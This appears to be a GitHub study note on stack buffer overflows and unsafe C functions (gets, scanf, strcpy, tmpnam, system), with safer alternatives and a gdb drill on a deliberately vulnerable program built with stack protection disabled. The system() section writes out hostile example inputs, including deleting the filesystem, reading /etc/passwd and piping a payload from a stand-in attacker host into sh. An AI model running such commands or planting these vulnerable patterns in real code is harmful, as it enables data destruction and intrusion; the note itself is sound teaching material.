




A buffer oveflow in a stack frame happens when a program writes more data to a buffer ( a local array ) than the allocated space allows. 
Since buffers live inside the stack frames overflowing them means you will start overwriting the adjacement memory . This includes:
(i) Saved Registers
(ii) Local Variables
(iii) The return addresses

# How it works
a) A function declares a local buffer ( char buf[16] ).
b) If the user input is unchecked ( gets(buf) ) they can input more than 16 bytes
c) The extra bytes will spill into the stack frame out of buf.
d) This overwrites the base pointer, local variables and the return address.
e) When the function executes RET the CPU jumps to the corrupted return address which can be attacker controlled.

# Drill
Compile the overflowvuln.c file with protections off to allow for the compiler to not generate the error below.

Run in gdb
Break at vuln
```
break vuln
run
```
Examinine the stack:
`x/32gx $rsp`

Input more that 30 characters
`next`
When the buffer overlow happens you get a SIGSEGV signal 

The overflowed buffer

 Modern compilers restrict the compilation of the program with the gets() function since it is obsolete and unsafe. To practice the bufferoverflow there are several was to go about it:
 
## Use fgets() instead:
This is how fgets works:
In C it safely reads strings by limiting input size unlike gets().
It reads upto n- 1 characters from a stream, stops at newline or EOF and always null terminates the buffer.
The risks and consideration invoved are:
a) You often need to strip the newline manually with ` strchr `
b) It is still vulnerable if misused in ways such as passing it in unsafe functions such as `strcpy()`  ` printf("%s")` without boundchecks introducing exploitation opportunities.

## Force Legacy Mode
To compile the program using legacy C standard you can simply tell the compiler through the following command.
`gcc -O0 -fno-stack-protector -std=gnu89 overflowvuln.c -o vuln`

The flag `-std=gnu89` swithches GCC to GNU dialect of ANSI C . `-Oo` disables optimizations
Notes:
a) Modern glibc ships gets() but still returns a depracated error
b) If the libc does not allow gets() you can manually declare it

## Manual Declaration
If you want to bypass the compiler error and still pass gets()  you can manually declare the function prototype before using it. This tricks the compiler into accepting the call even though modern headers do not provide it anymore.
It can be declared by the following line of code:
` char *gets(char *buf)`

## Vulnerable Alternatives
Unsafe C input functions are those that read or parse data without enforcing any bounds making them prime sources for:
(i) Buffer Overflows
(ii) Memory Corruption
(iii) Code Execution Vulnerabilities
The functions include the following all of which do not have bound checks:
# a) gets()
Reads unlimited input until newline. Unlike other functions there is no safe way of using it. Its safe replacement is fgets()
# b)  scanf()
It becomes unsafe the moment you use it without width limits - especially with %s , %d, %f, or any format that assumes input is welll formed. It can:
(i) Overflow buffers
(ii) Corrupt memory
(iii) Misparse input
(iv) Leave the program in undefined state
The danger comes from unbounded input:
` scanf("%s",buf)`
The function will keep reading characters until whitespace with no idea how big bug if. If the user inputs more than the buffercan hold you get a classic stack overflow.
Why it is dangerous:
(i) No size limits - %s reads unlimited characters , %c reads raw bytes, %d and %f assume valid numeric inputs
(ii) Buffer overflow - overwrites stack memory when input exceeds buffer size
(iii) Format string mismarch - if the format does not match the input, scanf() leaves the variables uninitialized
(iv) SilentFailure - on valid input , scanf() stops and returns a count , but the variables may contain garbage
(v) Whitespace behavior - %s stops at whitespace %c does not skip whitespace %d skips whitespace
(vi) No newline handling - leftover characters remain in the input buffer breaking subsequent reads
The safe patterns is to use width specifiers:
`scanf(:%7s",buf); #reads atmost 7 characters`
or better:
fgets - safe bounded input
strtol - safe numeric parsing
sscanf - safer controlled parsing
# c)strcpy
copies source into destinatino with no size check. It blindly copies bytes from the source unitl it hits a '\0' even if that means overwriting stack frames , saved registers or return addresses
Why it is unsafe:
(i) No bound checking
(ii) Guaranteed overflow if src>dest
(iii) Copies until null terminator
(iv) Classic exploitation primitive
(v) No safe usage pattern
The reason it was kept unlike gets()
(i) It can be used safely if the programmer checks sizes manually
(ii) It is widely used in legacy codebases
(iii) Its part of POSIX for many APIs
The safe alternatives are `strncpy()` and `strlcpy()`
# d) strcat
appends without checking remaining buffers space
It is unsafe because:
(i) No bounds checking
(ii) Guaranteed overflow if dest is too small
(iii) Copies until null terminator
(iv) Classic exploitation primiitive
(v) No safe usage pattern
The reasons why it was not removed from the standard library are the same as in strcpy
The safer alternatives are `strncat()` and `strlcat()`
# e) sprintf
writes formatted output with no size limit. It behaves like printf () but writes inot memory instead of the screen.
Apart from format string expansion - %d, %f, %s, %x can expand into huge output the other reasons for being unsafe are similar to the strcpy same to the reasons why it was not removed from the standard library
The safe alternative is `snprintf()`
# f) sscanf
safer than scanf but still risky without width specifiers or when you trust input format too much. It looks safer than scanf() because it reads from string instead of stdin. The reasons why it is unsafe are :
(i) No size limits
(ii) Buffer overflow
(iii) Format string mismatch
(iv) silent failure - it returns the number of successfully parsed items but you might not check it.
(v) Format expansion - numeric formats can expand into large values when later used unsafely
(vi) Chaining vulnerabilities - even if it doesnt overflow passing its output into unsafe functions other functions can
The safe usage is to use width specifiers or the following functions
strtol for integers
strtod for floats
fgets + manual for full control
# g) tmpnam
It is unsafe because it creates predictable, race conditions prone temporarily filenames that attackers can hijact before your program open them. It does not actually create the file - it only suggests a name - which makes it trival for another process to pre-create or replace that file.
The reasons why it is unsafe:
(i) Predictable filenames - attackers can create the name and create the file first
(ii) Race condition vulnerability - between generating the name and opening the file and attacker can replace it
(iii) No file creation - it only returns a string not  a secure file handle
(iv) Global static buffer - the default version uses a shared static buffer causing thread safety issues
(v) Depracated in modern standards
The vulnerability pattern:
```
char *name = tmpnam(NULL)
FILE *f = fopen(name, "w");    
```
Timeline:
1. tmpnam() returns something like /tmp/file1234
2. Your program pauses for a microsecond
3. An attacker creates /tmp/file1234 first
4. Your fopen() now opens the attacker controlled file
This is a TOCTOU ( Time of Check Time of Use ) race conditions
The reasons it was deprecated:
a) predicatable temp names
b) race conditions = privilege escalation
c) no atomic file creation
The sage alternatives `mkstemp()` because it creates files atomically returns a secure file descriptor
# h) fscanf
same issue as scanf when reading from files and the reasons for unsafety are the same too
Why people think it is safe:
(i) It reads from a file not user input
(ii) It is used in parsing structured data
(iii) It is commone in legacy code.
The above though do not protect from:
(i) Oversized file contents
(ii) Malformed input
(iii) Missing null terminators
(iv) Format mismatch
The safe alternative is to use width specifiers , strtol for integers or strtod for floats
# i) mktemp
predicatable temp file names and does not create file atomically. The reasons for its unsafety are similar to those in tmpnam and so are the reasons for deprecation from the standard library and safer alternative is the same.
# j) system
It is unsafe because it executes shell commands with full privileges of the running process by passig your string directly to the system shell. This means any input that reaches system() becomses code and attackers can hijack it trivally
The reasons why it is dangerous:
(i) Command injection - if user input reaches system( attackers can run arbitrary commands
(ii) Shell Interpretation - the shell expands variables, pipes, redirects, wildcards and subshells
(iii) Privilege Escalation - if the program runs as root, injected commands run as root
(iv) No sandboxing - it gives the shell full access to the environemnt and filesystem
(v) Environemnt manipulation - attackers can modify PATH IFS or other variables to hijack execution
(vi) Race conditions - external commands can be swapped and replaced between calls
(vii) Undefined behaviour on failure - return values are inconsistent across platforms
Visual:
```
char cmd[64];
scanf("%63s",cmd);
system(cmd);
```
An attacker can input `rm -rf /` or `cat /etc/passwd` or chain commands `ls: curl http://attacker.com/payload | sh`. Because system() invokes /bin/sh -c "<your string>" the shell interprets everything
The safe alternatives are:
a) `execve() ` - executes a program without a shell, no interpretation
b) `fork() + execvp()` - controlled argument parsing
c) `posix_span()` safer process cretion
d) avoid shell entirely
